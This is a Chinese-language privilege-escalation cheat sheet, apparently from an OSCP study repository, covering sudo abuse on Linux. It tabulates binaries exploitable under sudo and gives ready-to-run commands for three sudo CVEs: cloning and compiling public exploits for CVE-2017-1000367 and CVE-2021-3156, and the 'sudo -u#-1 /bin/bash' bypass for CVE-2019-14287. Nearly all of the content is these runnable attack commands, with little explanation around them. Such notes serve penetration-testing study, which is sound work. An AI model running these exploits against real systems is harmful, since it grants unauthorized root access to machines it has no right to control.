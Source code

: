 ﻿# Linux  sudo 滥用和 sudo漏洞提权

---

## Table of Contents
 - [sudo 滥用](#sudo-滥用)
 - [sudo 漏洞](#sudo-漏洞)
  - [CVE-2017-1000367](#CVE-2017-1000367)
  - [CVE-2019-14287](#CVE-2019-14287)
  - [CVE-2021-3156](#CVE-2021-3156)

---
## sudo 滥用
已知的可用来sudo滥用提权的`linux`可执行文件列表

| 命令   | 命令     | 命令       | 命令      | 命令         | 命令        | 命令    | 
|--------|----------|------------|-----------|--------------|-------------|---------|
| [awk](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/awk.md)| [expect](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/expect.md) | [flock](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/flock.md)| [ftp](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/ftp.md)| [ionice](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/ionice.md)| [less](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/less-more.md)|[more](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/less-more.md)|
|[man](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/man.md)| [rpm](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/rpm.md)| [setarch](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/setarch.md)| [stdbuf](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/stdbuf.md)| [tcpdump](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/tcpdump.md)| [xargs](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/xargs.md)|

---
## sudo 漏洞
### CVE-2017-1000367
这个项目指定了通过/usr/bin/sum来sudo提权，请根据自己的sudo情况修改文件名
```
git clone https://github.com/c0d3z3r0/sudo-CVE-2017-1000367.git
cd sudo-CVE-2017-1000367
gcc -o sudopwn sudopwn.c -lutil
./sudopwn
```
### CVE-2019-14287
 
```
$ sudo -u#-1 /bin/bash
或者
$ sudo -u#4294967295 /bin/bash
```

### CVE-2021-3156
基于堆的缓冲区溢出漏洞
受影响版本
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1
```
git clone https://github.com/blasty/CVE-2021-3156.git
make
./sudo-hax-me-a-sandwich 0
```
